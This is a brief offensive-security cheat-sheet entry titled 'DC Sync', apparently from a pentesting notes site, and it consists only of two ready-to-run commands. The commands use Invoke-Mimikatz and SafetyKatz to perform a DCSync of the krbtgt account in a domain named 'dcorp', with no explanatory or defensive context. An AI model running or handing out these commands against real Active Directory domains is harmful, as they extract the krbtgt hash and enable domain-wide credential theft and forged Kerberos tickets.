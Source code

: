 # DC Sync



{% code overflow="wrap" %}
```powershell
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"' 

SafetyKatz.exe "lsadump::dcsync /user:dcorp\krbtgt" "exit"
```
{% endcode %}
